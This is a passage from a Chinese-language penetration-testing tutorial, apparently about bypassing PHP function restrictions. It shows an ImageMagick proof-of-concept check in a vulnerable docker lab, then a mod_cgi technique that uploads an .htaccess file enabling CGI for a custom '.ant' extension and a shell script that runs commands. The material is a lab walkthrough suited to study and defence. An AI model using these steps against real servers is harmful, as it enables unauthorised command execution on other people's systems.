 
访问`phpinfo.php`,发现开启了imagemagick服务

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102327.png)

  

进入容器:`docker run -t -i medicean/vulapps:i_imagemagick_1 "/bin/bash"`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102328.png)

查看`poc.php`,这其实是已经写好的poc,执行命令就是`ls -la`

![]()

  

验证poc,在容器外执行`docker exec i_imagemagick_1 convert /poc.png 1.png`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102329.png)

## 利用 Apache Mod CGI

利用条件:

  * Apache + PHP (apache 使用 apache_mod_php)
  * Apache 开启了 cgi, rewrite
  * Web 目录给了 AllowOverride 权限

### 关于mod_cgi是什么

http://httpd.apache.org/docs/current/mod/mod_cgi.html任何具有MIME类型application/x-httpd-
cgi或者被cgi-
script处理器处理的文件都将被作为CGI脚本对待并由服务器运行，它的输出将被返回给客户端。可以通过两种途径使文件成为CGI脚本，一种是文件具有已由AddType指令定义的扩展名，另一种是文件位于ScriptAlias目录中。当Apache
开启了cgi,
rewrite时，我们可以利用.htaccess文件，临时允许一个目录可以执行cgi程序并且使得服务器将自定义的后缀解析为cgi程序，则可以在目的目录下使用.htaccess文件进行配置。

### 如何利用

由于环境搭建困难,使用蚁剑的docker

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102331.png)

  

在web目录下上传`.htaccess`文件

    
    
    Options +ExecCGI  
    AddHandler cgi-script .ant  
    

上传shell.ant

    
    
    #!/bin/sh  
    echo Content-type: text/html  
    echo ""  
    echo&&id  
    